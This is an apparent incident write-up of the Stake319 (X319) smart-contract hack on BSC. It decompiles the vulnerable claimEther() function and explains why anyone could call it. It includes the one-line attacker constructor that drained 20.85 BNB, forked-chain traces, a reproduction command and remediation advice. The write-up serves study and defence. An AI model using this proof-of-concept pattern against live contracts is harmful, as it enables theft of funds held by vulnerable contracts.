



# Stake319 (X319) Exploit — Permissionless `claimEther()` drains the contract's BNB

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated
> PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> The vulnerable contract is **unverified** on BscScan, so the analysis below is
> reconstructed from its EVM bytecode (disassembly saved at
> [sources/X319_claimEther_disasm.txt](sources/X319_claimEther_disasm.txt)) plus
> live on-chain reads at the fork block.

---

## Key info

| | |
|---|---|
| **Loss** | **20.85 BNB ≈ $12.9k** — 100% of the BNB held by the token contract |
| **Vulnerable contract** | `Stake319` (X319 token) — [`0xedD632eAf3b57e100aE9142e8eD1641e5Fd6b2c0`](https://bscscan.com/address/0xedd632eaf3b57e100ae9142e8ed1641e5fd6b2c0) (unverified) |
| **Victim** | The token contract itself (held 20.85 BNB as its native balance) |
| **Attacker EOA** | [`0xE60329A82C5aDD1898bA273FC53835Ac7e6fD5cA`](https://bscscan.com/address/0xe60329a82c5add1898ba273fc53835ac7e6fd5ca) |
| **Attacker contract** | [`0x54588267066dDBC6f8Dcd724D88C25e2838B6374`](https://bscscan.com/address/0x54588267066ddbc6f8dcd724d88c25e2838b6374) |
| **Attack tx** | [`0x679028cb0a5af35f57cbea120ec668a5caf72d74fcc6972adc7c75ef6c9a9092`](https://app.blocksec.com/explorer/tx/bsc/0x679028cb0a5af35f57cbea120ec668a5caf72d74fcc6972adc7c75ef6c9a9092) |
| **Chain / block / date** | BSC / 43,860,720 / **2024-11-09 14:34:32 UTC** |
| **Compiler** | unknown (unverified); test pinned to `^0.8.10` |
| **Bug class** | Missing access control on a fund-withdrawing function (`msg.sender` never checked) |

---

## TL;DR

`Stake319` is a BSC token that, at the time of the hack, held **20.85 BNB** as its own native
balance. It exposes a function `claimEther(address receiver, uint256 amount)` whose **only**
runtime check is that `receiver != operator`. There is **no check on `msg.sender`**.

When called by anyone *other* than the `operator`, the function takes the branch that performs a
raw `receiver.call{value: amount}("")` — i.e., it sends `amount` of the contract's **native BNB**
to an arbitrary `receiver`. (When called *by* the operator it instead does an ERC20 `transfer`, a
decoy that makes the function look harmless.)

The attacker simply deployed a one-line contract whose constructor calls
`claimEther(tx.origin, 20.85e18)`, draining the contract's entire 20.85 BNB balance to the attacker
EOA in a single transaction. No flash loan, no price manipulation, no privileged role — just an
unprotected withdrawal.

```solidity
// AttackerC constructor (from the PoC)
constructor() { IAddr1(addr1).claimEther(tx.origin, 2085 * 10**16); }   // 2085e16 = 20.85e18
```

---

## Background — what Stake319 is

`Stake319` is an ERC20 named **"Stake 319"** / symbol **"Stake319"** deployed on BSC. Its bytecode
exposes the standard token surface plus a couple of bespoke admin-style functions. The function
selectors present in its dispatcher (decoded with `cast 4byte`) are:

| Selector | Function |
|---|---|
| `0x570ca735` | `operator()` |
| `0x9dc29fac` | `burn(address,uint256)` |
| `0xa9059cbb` | `transfer(address,uint256)` |
| `0xbfcf63b0` | **`claimEther(address,uint256)`** ← the vulnerable one |
| `0xdd62ed3e` | `allowance(address,address)` |

On-chain state read at the fork block (`cast storage` / `cast call`):

| Slot / getter | Value |
|---|---|
| `name()` | `"Stake 319"` |
| `symbol()` | `"Stake319"` |
| slot 5 / `operator()` | `0x72Dca87c7d82bF16CFfC58cfED2462528045dbA8` (the legitimate operator) |
| **contract native BNB balance** | **20.85 BNB** ← the prize |

The single fact that makes this exploitable: the contract was holding **20.85 BNB** of native value,
and `claimEther` lets *anyone* move it out.

---

## The vulnerable code

The contract is unverified, so the snippet below is a faithful decompilation of the
`claimEther` body, derived from the disassembly
([sources/X319_claimEther_disasm.txt](sources/X319_claimEther_disasm.txt), region `0x5a0`–`0x6cc`).
The control flow is unambiguous:

```solidity
// selector 0xbfcf63b0
function claimEther(address receiver, uint256 amount) external {
    // 0x5a0: the ONLY guard — receiver must not be the operator
    require(receiver != operator /* slot 5 */, "<error>");

    if (msg.sender == operator) {                 // 0x5f2..0x60a : CALLER == slot5 ?
        // operator path (decoy): move ERC20 *tokens* (selector 0xa9059cbb)
        IERC20(operator).transfer(receiver, amount);   // 0x60b..0x683
    } else {
        // ANYONE path: raw native-BNB transfer, NO msg.sender check
        (bool ok, ) = receiver.call{value: amount}("");  // 0x692..0x6b2 : CALL with value
        require(ok);                                      // 0x6b8..0x6c7
    }
}
```

Key bytecode anchors confirming this (offsets from the disassembly):

- **`0x5a0`–`0x5f1`** — load slot 5 (`operator`), compare to the **`receiver`** argument, and revert
  if they are equal. This is the *only* require that gates the function.
- **`0x5f6: CALLER`**, then `SUB` of `(operator)` and `(msg.sender)`, then `0x60a: JUMPI 0x687`.
  This is a **branch selector**, not an access guard: if `msg.sender != operator` the code jumps to
  `0x687`/`0x692`.
- **`0x692`–`0x6b2`** — the non-operator branch builds a call with `value = amount` and executes
  **`0x6b2: CALL`** to `receiver`. This is the native-BNB drain.
- **`0x60b`–`0x683`** — the operator branch instead encodes selector `0xa9059cbb`
  (`transfer(address,uint256)`) and `CALL`s it (`0x64c`), i.e. an ERC20 token transfer.

The function name `claimEther` and the operator-gated token branch are misleading: the
attacker-reachable branch is the one that leaks the contract's **native** balance.

---

## Root cause — why it was possible

A function that withdraws value from a contract MUST authenticate the caller. `claimEther` does the
opposite of what its structure implies:

1. **No `msg.sender` authorization on the value-transferring path.** The `CALLER` opcode is used only
   to *select a branch*, not to *reject* unauthorized callers. The `else` branch
   (`msg.sender != operator`) is the one that sends native BNB — so being a **non-operator is a
   precondition for the dangerous branch**, the exact inversion of a correct access check.
2. **The only check is on `receiver`, not the caller.** `require(receiver != operator)` constrains
   *where* funds go, not *who* may send them. An attacker just sets `receiver` to its own EOA and
   passes the check trivially.
3. **The contract custodied native BNB it never needed to.** A token contract holding 20.85 BNB with
   a permissionless path to spend it is a standing honeypot.

This is empirically verified against live state — at the fork block, calling `claimEther` from an
unrelated address (`0x…dEaD`, which is not the operator) succeeds:

```text
# claimEther(attacker, 20.85e18)  from 0x…dEaD  →  0x   (success, returns no data)
# claimEther(operator, 1e18)      from 0x…dEaD  →  reverts   (receiver == operator guard)
# claimEther(zeroAddr, 1e18)      from 0x…dEaD  →  0x   (success)
```

The first and third calls — by an address with no privileges whatsoever — succeed, proving the
caller is never authenticated.

---

## Preconditions

- The token contract holds a non-zero native BNB balance (20.85 BNB here). The attacker reads this
  balance and requests exactly that amount.
- The chosen `receiver != operator` (trivially satisfied by using the attacker's own address).
- **That's it.** No role, no flash loan, no specific block, no market state. Any EOA could have
  executed this at any time the contract held BNB.

---

## Step-by-step attack walkthrough (with on-chain numbers from the trace)

The entire exploit is a single transaction: the attacker's EOA deploys `AttackerC`, and the drain
happens inside that contract's **constructor**. All figures below are from
[output.txt](output.txt) and live `cast` reads.

| # | Step | Value | Source |
|---|------|------:|--------|
| 0 | **Initial** — attacker EOA BNB balance | 0.09832 BNB | trace `before attack` log |
| 0 | **Initial** — `Stake319` contract BNB balance | 20.85 BNB | `cast balance @43860719` |
| 1 | Attacker EOA deploys `AttackerC` ([test/X319_exp.sol:43-45](test/X319_exp.sol#L43-L45)) | — | trace `new AttackerC@0x5458…` |
| 2 | In the constructor: `claimEther(tx.origin = attacker, 20.85e18)` | 20.85 BNB | trace `claimEther(0xE603…, 2.085e19)` |
| 3 | `claimEther` takes the non-operator branch → `attacker.call{value: 20.85e18}("")` | 20.85 BNB | trace `0xE603…::fallback{value: 2.085e19}()` → `Stop` |
| 4 | **Final** — `Stake319` contract BNB balance | **0 BNB** | `cast balance @43860720` |
| 4 | **Final** — attacker EOA BNB balance | **20.9483 BNB** | trace `after attack` log |

The verbose trace is exactly this short — there is no multi-step setup, which is the whole point:

```text
[67451] ContractTest::testPoC()
  ├─ emit before attack: balance of attacker: 0.098321998700000000
  ├─ [23043] → new AttackerC@0x54588267066dDBC6f8Dcd724D88C25e2838B6374
  │   ├─ [7303] 0xedD632…::claimEther(0xE60329…, 20850000000000000000)
  │   │   ├─ [0] 0xE60329…::fallback{value: 20850000000000000000}()
  │   │   │   └─ ← [Stop]
  │   │   └─ ← [Stop]
  │   └─ ← [Return] 62 bytes of code
  └─ emit after attack: balance of attacker: 20.948321998700000000
```

### Profit / loss accounting (BNB)

| Direction | Amount |
|---|---:|
| Attacker EOA before | 0.09832 |
| Drained from `Stake319` via `claimEther` | +20.85000 |
| Attacker EOA after | 20.94832 |
| **Net gain to attacker** | **+20.85 BNB (≈ $12.9k)** |
| **Contract balance after** | **0 (fully drained)** |

The 0.00024 BNB difference between the deal accounting and the logged "after" balance is the gas the
real attacker paid for deployment; in the forked PoC the prank EOA gains the full 20.85 BNB on top
of its starting balance.

---

## Diagrams

### Sequence of the attack



### `claimEther` control flow (the flaw)



### Contract balance state evolution



---

## Remediation

1. **Authenticate the caller, not the receiver.** Any function that withdraws value must enforce
   `require(msg.sender == operator /* or owner/role */)` at entry. Here the caller is only used to
   *select a branch*; the native-transfer branch is reachable precisely *because* the caller is **not**
   privileged — the access logic is inverted and must be removed/rewritten.
2. **Never expose an unconditional native-value transfer.** If the contract must hold BNB, gate every
   spending path behind authorization and, ideally, a withdrawal allow-list or rate limit.
3. **Don't let a token contract custody unrelated native funds.** A token contract holding spendable
   BNB is a standing target. Sweep native balances to a dedicated, access-controlled treasury.
4. **Verify and audit before funding.** This contract was unverified on BscScan and held real value
   through a permissionless drain path — exactly the combination an attacker scans for.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2024-11-X319_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 43,860,719). `foundry.toml` uses
  `https://bsc-mainnet.public.blastapi.io`, which serves historical state at that block; many public
  BSC RPCs prune it and fail with `header not found` / `missing trie node`.
- Result: `[PASS] testPoC()` — attacker balance goes from `0.0983…` to `20.9483…` BNB.

Expected tail:

```text
Ran 1 test for test/X319_exp.sol:ContractTest
[PASS] testPoC() (gas: 67451)
Logs:
  before attack: balance of attacker: 0.098321998700000000
  after attack: balance of attacker: 20.948321998700000000

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: TenArmor post-mortem — https://x.com/TenArmorAlert/status/1855263208124416377 (Stake319 / X319, BSC, ~$12.9K).*
